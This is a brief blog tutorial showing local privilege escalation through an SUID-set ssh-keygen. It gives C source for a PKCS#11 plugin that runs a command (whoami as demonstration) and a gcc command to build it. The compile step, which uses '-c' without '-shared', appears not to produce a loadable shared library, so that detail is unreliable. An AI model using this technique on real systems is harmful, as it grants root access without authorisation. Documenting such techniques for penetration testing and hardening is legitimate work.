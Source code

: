 ```yaml
---
title: "Exploiting ssh-keygen SUID binary using custom plugin"
description: ""
pubDate: "Feb 27 2024"
---
```


A little ago I encountered a system which had SUID bit set on `ssh-keygen`

SUID is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner

ssh-keygen has the ability to load shared libraries during the execution of binary. You can also check it [here](https://gtfobins.github.io/gtfobins/ssh-keygen/)
We can take advantage of it, create our custom plugin which will execute system commands and load the plugin using ssh-keygen and become `root`

Here is an C example for the custom plugin:

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {
        execl("/usr/bin/whoami", NULL);
    } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

compile it as shared library(.so ) file 
```bash
gcc -c -fPIC rce.c -o lib.so
```
if you get `fatal error: pkcs11.h: No such file or directory` error, download [this file](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h), put it in the same directory with C file and try to compile again

Now run ssh-keygen with our custom plugin
![](../../assets/blog/images/ssh-keygen-suid/2.png)